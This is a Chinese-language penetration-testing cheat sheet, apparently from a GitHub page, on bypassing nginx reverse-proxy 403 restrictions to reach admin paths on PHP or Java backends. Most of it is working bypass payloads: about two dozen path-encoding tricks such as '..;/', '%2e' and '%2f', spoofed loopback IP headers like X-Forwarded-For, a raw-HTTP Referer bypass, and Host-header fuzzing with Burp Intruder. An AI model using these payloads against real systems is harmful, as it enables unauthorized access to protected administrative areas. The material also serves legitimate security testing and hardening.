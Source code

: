 ## 0x00 技术背景

       之前碰过几个项目，中间件nginx做反向代理，后端代码是PHP或者JAVA，过nginx一般会识别ip，从而限制攻击者访问敏感路径，所以可以通过绕过方式限制nginx
       
       
## 0x01 forbidden绕过


      site.com/admin => 403
      site.com/admin/ => 200
      site.com/random-dir/../admin => 200
      site.com/random-dir/..;/admin => 200
      site.com/random-dir/..%252F/admin => 200
      site.com/admin// => 200
      site.com//admin// => 200
      site.com/admin/* => 200
      site.com/admin/*/ => 200
      site.com/admin/. => 200
      site.com/admin/./ => 200

      site.com/./admin/./ => 200
      site.com/admin/./. => 200
      site.com/admin/./. => 200
      site.com/admin? => 200
      site.com/admin?? => 200
      site.com/admin??? => 200
      site.com/admin..;/ => 200
      site.com/admin/..;/ => 200
      site.com/%2f/admin => 200
      site.com/%2e/admin => 200
      site.com/admin%20/ => 200
      site.com/admin%09/ => 200
      site.com/%20admin%20/ => 200
      site.com/%0dadmin => 200
      
## 0x02 添加各种头

     - X-Originating-IP: 127.0.0.1
     - X-Remote-IP: 127.0.0.1
     - X-Client-IP: 127.0.0.1
     - X-Forwarded-For: 127.0.0.1
     - X-Forwared-Host: 127.0.0.1
     - X-Host: 127.0.0.1
     - X-Custom-IP-Authorization: 127.0.0.1
     
      Referer 请求头包含了当前请求页面的来源页面的地址，即表示当前页面是通过此来源页面里的链接进入的。服务端一般使用 Referer 请求头识别访问来源。
      
      GET /auth/login HTTP/1.1
      Host: xxx
      Response
      HTTP/1.1 403 Forbidden

      Reqeust
      GET / HTTP/1.1
      Host: xxx
      ReFerer:https://xxx/auth/login
      Response
      HTTP/1.1 200 OK

      之前碰见个项目，访问后台，提示403，添加Referer提示302成功


## 0x03 修改host头

      我们先说下 Host 在请求头中的作用，在一般情况下，几个网站可能会部署在同一个服务器上，或者几个 web 系统共享一个服务器，通过 host 头来指定应该由哪个网站或者 web 系统来处理用户       的请求。
      
      很多 WEB 应用通过获取 HTTP HOST 头来获得当前请求访问的位置，但是很多开发人员并未意识到 HTTP HOST 头由用户控制，从安全角度来讲，任何用户输入都是认为不安全的。
      当服务器获取 HOST 的方式不当时，我们可以通过修改 Host 值来进行绕过。首先对该目标域名进行子域名收集，整理好子域名资产（host 字段同样支持 IP 地址）。先 Fuzz 测试跑一遍收集到       的子域名，这里使用的是 Burp 的 Intruder 功能。
